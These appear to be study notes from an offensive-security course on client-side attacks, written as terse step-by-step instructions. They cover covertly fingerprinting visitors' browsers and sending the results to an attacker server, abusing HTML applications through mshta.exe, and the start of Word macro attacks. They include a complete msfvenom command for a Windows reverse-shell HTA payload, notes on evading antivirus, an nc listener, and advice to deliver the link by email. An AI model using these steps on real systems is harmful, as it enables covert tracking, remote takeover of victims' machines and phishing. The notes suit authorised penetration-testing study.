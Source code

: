                 info on the tgt. example is a java fingerprints
            cd to `/var/www/html` and ensure there isn't an `fp` dir
            `cd /var/www/html/ && sudo wget https://github.com/fingerprintjs/fingerprintjs/archive/2.1.4.zip && sudo unzip 2.1.4.zip && sudo mv fingerprintjs-2.1.4/ fp/ && cd fp`
            [index_html](index_html) or [fingerprint](fingerprint)
			now when a tgt goes to `http://<hackbox ip>/fp/index.html`
            their browser will be fingerprinted to them.
                `userAgent` gives us: installed browsers, plugins, versions /
                    generic info about the underlying OS
            submitting the `userAgent` to https://developers.whatismybrowser.com/
                gets us more info on: browser versions and OS that was used to
                    go to our site
            however, the user KNOWS they are being fingerprinted so we want
                to sent their fingerprint back to our self hosted web server.
            * `sudo chown www-data:www-data fp` will change the owner of `/fp`
                to `www-data` so our `fingerprint.txt` can be written
            use [fingerprint_2_server](fingerprint_2_server) to report back to
                our server and [js_php](js_php) will save the fingerprints to
                    `/var/www/html/fp/fingerprint.txt` also all they will see
                    is `You have been given the finger!`
			now we have a client's fingerprint with them getting just an html
                page that we can make look like anything 
        #leveraging html apps
            creating a file with `.hta` instead of `.html`, `IE` will
                interpret it as an `HTML app` and offer to execute it using
                `mshta.exe` this to allow `IE` to execute apps directly instead
                of windows having to download them and then exicute them. So
                an `html app` is executed OUTSIDE of the security context of
                the browser suing Microsoft-signed binary `mshta.exe` works on
                `IE` and some `Edge`. compatible with less secuire legacy such
                as `ActiveX`. So if the brower blocks some feautre `mshta.exe`
                may still beable to execute them.
            #exploring HTML apps
                using `WScript` we can use the function `Windows script host`
                    to get a `windows script host shell` object on tgt by
                    envoking the `Run()` method: [wscript](wscript)
                    when the user brower goes here they will get 2 pop ups
                    asking if they want to run it and will open a `cmd`
                    and an addional window will open.
                we can add `self.close()` to get to close the addional window 
                    after it opens [wscript_host_shell_2](wscript_host_shell_2)
                we need to use `powershell` instead of `run` to get an attack
            #HTA attack in action
                `sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.203 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta` 
                    `-f hta-psh` makes the `hta` output format with powershell [evil_hta](evil_hta)
                        variable names have been randomized to trick detection
                            and anti-virus (AV)
                        `powershell.exe -nop -w hidden -e`
                            `-nop`  NoProfile so user profile isn't loaded
                            `-w hidden` will not create a window on desktop
                            `-e` encoded command, allows the large 64bit
                            encoded command to be ran as direct command line
                            argument
                set up `nc -lvnp 4444` and have user browse to `evil.hta` after
                    they accept 2 warning popups we get a reverse shell!!!
                we could also send it in an email as a link to get around NATed
                    clients
            #exploiting microsoft office
                #microsoft word macro (PWK p.443)
                    can write macros in Visual Basic for Applications (VBA)
                        which is a fully functional scripting lang with access
                        to ActiveX objects and Windows Script Host like
                        JavaScript in HTML apps